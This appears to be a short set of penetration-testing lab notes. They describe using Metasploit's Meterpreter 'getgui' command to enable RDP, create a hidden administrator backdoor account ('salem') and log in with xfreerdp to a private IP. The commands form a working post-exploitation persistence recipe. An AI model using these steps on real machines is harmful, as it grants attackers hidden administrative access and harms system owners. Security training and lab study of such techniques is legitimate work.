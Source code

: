 

get mterpreter 
elevate priviliege 


The ‘getgui’ command makes the below changes to the target machine. 
● Enable RDP service if it’s disabled 
● Creates new user for an attacker 
● Hide user from Windows Login screen 
● Adding created user to "Remote Desktop Users" and "Administrators" groups
note: sometimes the password need to be complex in order for it to work
- run getgui -e -u salem -p password (must password policy)

exit from mterpreter and msfconsole and connect to our user using xfreerdp
- xfreerdp /u:salem /p:password /v:10.6.21.90